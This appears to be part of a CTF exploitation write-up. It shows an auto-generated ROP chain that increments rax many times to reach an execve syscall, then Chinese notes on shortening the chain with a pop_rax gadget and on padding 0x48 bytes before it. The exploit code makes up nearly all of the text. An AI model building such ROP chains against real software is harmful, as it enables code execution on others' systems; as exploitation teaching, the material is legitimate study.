 ```python
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004012d3) # syscall
```
1.有可以直接写的ROPchain，但是应该不行，因为太长了。我们可以搜寻一下pop_rax;ret,直接将rax设置为0x3b，这样可以减少很多字节。
2.然后不要忘记输入ROPchain前有0x40+0x8的垃圾数据要填充。
